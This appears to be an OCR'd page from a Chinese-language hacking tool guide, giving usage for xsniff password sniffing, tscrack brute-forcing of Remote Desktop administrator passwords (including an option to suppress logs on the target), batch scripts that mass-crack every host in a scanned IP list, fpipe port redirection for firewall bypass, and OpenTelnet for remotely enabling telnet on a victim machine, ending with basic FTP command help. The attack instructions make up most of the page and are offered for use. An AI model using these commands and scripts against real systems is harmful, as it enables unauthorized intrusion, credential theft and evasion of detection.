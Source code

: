 - -hide 后台运行
- -host 解析主机名
- -addr IP 地址 过滤 IP 地址
- -port 端口 过滤端口
- -log 文件名 将输出保存到文件
- -asc 以 ASCII 形式输出
- -hex 以 16 进制形式输出
  用法示例
- xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在 pass.log 文件中
- xsniff.exe -tcp -udp -asc -addr192.168.1.1 嗅探 192.168.1.1 并过滤 tcp 和 udp 信息并以 ASCII 格式输出
  终端服务密码破解: tscrack.exe
  参数说明
- -h 显示使用帮助
- -v 显示版本信息
- -s 在屏幕上打出解密能力
- -b 密码错误时发出的声音
- -t 同是发出多个连接（多线程）
- -N Prevent System Log entries on targeted server
- -U 卸载移除 tscrack 组件
- -f 使用－f 后面的密码
- -F 间隔时间（频率）
- -l 使用－l 后面的用户名
- -w 使用－w 后面的密码字典
- -p 使用－p 后面的密码
- -D 登录主页面
  用法示例
- tscrack192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的 administrator 的登陆密码
- tscrack192.168.0.1 -l administrator -p 123456 用密码 123456 远程登陆 192.168.0.1 的 administrator 用户
  @if not exist ipcscan.txt goto noscan
  @for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
- nscan
  @echo3389.txt no find or scan faild
  (① 存为 3389.bat) （假设现有用 SuperScan 或其它扫锚器扫到一批开有 3389 的主机 IP 列表文件 3389.txt)
- 3389.bat 意思是：从 3389.txt 文件中取一个 IP，接着运行 hack.bat
  @if not exist tscrack.exe goto noscan
  @tscrack %1 -l administrator -w pass.dic >>rouji.txt
  :noscan
  @echo tscrack.exe no find or scan faild
  (② 存为 hack.bat) (运行 3389.bat 就 OK，且 3389.bat、hack.bat、3389.txt、pass.dic 与 tscrack.exe 在同一个目录下；就可以等待结果了)
- hack.bat 意思是：运行 tscrack.exe 用字典暴破 3389.txt 中所有主机的 administrator 密码，并将破解结果保存在 rouji.txt 文件中。
  其它
- Shutdown.exe
- Shutdown IP 地址 t:20 20 秒后将对方 NT 自动关闭（Windows 2003 系统自带工具，在 Windows2000 下用进就得下载此工具才能用。在前面 Windows 2003 DOS 命令中有详细介绍。）
- fpipe.exe (TCP 端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
- fpipe -l 80 -s 1029 -r 80 当有人扫锚你的 80 端口时，他扫到的结果会完全是的主机信息
- Fpipe -l 23 -s 88 -r 23 目标 IP 把本机向目标 IP 发送的 23 端口 Telnet 请求经端口重定向后，就通过 88 端口发送到目标 IP 的 23 端口。（与目标 IP 建立 Telnet 时本机就用的 88 端口与其相连接）然后：直接 Telnet127.0.0.1（本机 IP）就连接到目标 IP 的 23 端口了。
- OpenTelnet.exe (远程开启 telnet 工具)
- opentelnet.exe IP 帐号　密码　 ntlm 认证方式　 Telnet 端口 （不需要上传 ntlm.exe 破坏微软的身份验证方式）直接远程开启对方的 telnet 服务后，就可用 telnet ip 连接上对方。
- NTLM 认证方式：0：不使用 NTLM 身份验证；1：先尝试 NTLM 身份验证，如果失败，再使用用户名和密码；2：只使用 NTLM 身份验证。
- ResumeTelnet.exe (OpenTelnet 附带的另一个工具)
- resumetelnet.exe IP 　帐号　密码 用 Telnet 连接完对方后，就用这个命令将对方的 Telnet 设置还原，并同时关闭 Telnet 服务。
- FTP 命令详解
- FTP 命令是 Internet 用户使用最频繁的命令之一，熟悉并灵活应用 FTP 的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台 FTP 下载，那么就必须学习 FTP 指令。
- FTP 的命令行格式为：
- ftp -v -d -i -n -g [主机名] ，其中
- -v 显示远程服务器的所有响应信息
- -n 限制 ftp 的自动登录，即不使用；.n etrc 文件；
- -d 使用调试方式；
- -g 取消全局文件名。